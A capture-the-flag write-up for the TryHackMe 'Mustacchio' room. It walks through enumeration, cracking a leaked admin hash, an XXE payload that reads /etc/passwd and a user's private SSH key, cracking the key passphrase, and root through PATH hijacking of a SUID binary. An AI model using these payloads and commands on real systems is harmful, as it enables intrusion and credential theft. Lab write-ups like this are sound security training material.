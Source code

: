 ```yaml
---
layout: post
author: L0
---
```


# THM-Mustacchio
![image](/images/Pasted image 20230823134804.png)

[TryHackMe - Mustacchio](https://tryhackme.com/room/mustacchio)

## Enumeration
### nmap
```shell
$ sudo nmap -sV -p- mustacchio
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i started with scanning the target and got these open ports.

- **Port 22** ssh service
- **Port 80** apache web server
- **Port 8765** nginx web server
### website
first i checked the apache website.
nothing of interest.

![image](/images/Pasted image 20230823135104.png)
### directory fuzzing

i did a directory scan and found the **custom** directory.

```shell
$ ffuf -w `fzf-wordlist` -u http://mustacchio.thm/FUZZ

                        [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 36ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 36ms]
custom                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 39ms]
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 3789ms]
fonts                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 33ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 4174ms]
images                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 35ms]
index.html              [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 35ms]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3, Duration: 42ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 35ms]

```

inside the **custom** directory was a file called **users.bak**

![image](/images/Pasted image 20230823141852.png)

the file is a backup of a sqlite database. and inside is a username and a password hash.

```shell
$ file users.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2

┌──(j0j0pupp3㉿bAs3)-[~/THM/mustacchio]
└─$ sqlite3 users.bak
SQLite version 3.38.2 2022-03-26 13:51:10
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

[crackstation.net](https://crackstation.net/) revealed the admin password.

![image](/images/Pasted image 20230823135345.png)

### nginx website
then i looked into the nginx website. i found a login page. with the found credentials is was able to log in. 

![image](/images/Pasted image 20230823135526.png)

it is some kind of admin panel. after submitting some text and checking the response with **burpsuite** i saw that the input needed to be an xml code.

### XXE

![image](/images/Pasted image 20230823135551.png)

in the response was also a hint. a path to anoter **bak file**. downloading this file got me an example what the input field was expecting.

![image](/images/Pasted image 20230823140654.png)

a xml code like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment> 

```

with this the response looks like this:

![image](/images/Pasted image 20230823140749.png)

google helped to find some payloads to try. in the end this one worked.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

and here is the result me reading **/etc/passwd**

![image](/images/Pasted image 20230823140616.png)

in the response was another hint. **Barry** is able to use the ssh service with his ssh-key.

![image](/images/Pasted image 20230823142922.png)

so i read this path `/home/barry/.ssh/id_rsa`
and got the private key.

![image](/images/Pasted image 20230823141028.png)

it was protected with a passphrase that **john** handled for me.

`ssh2john barrys_ssh_key.txt > ssh_hash.txt`

![image](/images/Pasted image 20230823141428.png)

ssh passphrase: **urieljames**

with this passphrase and the private key i was able to log in with the user **barry** and got the first flag.
```shell
barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt
62****************************31
```
## Privilege Escalation
i found in the home directory of the user **joe** a binary where the SUID bit is set.
```shell
barry@mustacchio:/home/joe$ ls -lah
total 28K
drwxr-xr-x 2 joe  joe  4.0K Jun 12  2021 .
drwxr-xr-x 4 root root 4.0K Jun 12  2021 ..
-rwsr-xr-x 1 root root  17K Jun 12  2021 live_log
```

running the binary just prints out the requests on the nginx web server.
but looking into the binary with the **strings** command got me an attack vector.
```shell
barry@mustacchio:/home/joe$ strings live_log
...
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
...
```

i found that the **tail** command was executed without absolute path.
next we will do this:

write the command to spawn a shell into a fake **tail** file.
```shell
barry@mustacchio:/home/joe$ echo "/bin/bash" >/tmp/tail
```

make the file executable
```shell
barry@mustacchio:/home/joe$ chmod +x /tmp/tail
```

and add the path to the file as the first argument to the **PATH** variable. so the OS finds this file with the same name as the original first.
```shell
barry@mustacchio:/home/joe$ export PATH=/tmp:$PATH
```

then execute the binary again and there is a root shell.
```shell
barry@mustacchio:/home/joe$ ./live_log
root@mustacchio:/home/joe# whoami
root
```

go to the **/root** directory to grab the last flag.

```shell
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# cat root.txt
32***************************3a5
```

[L0]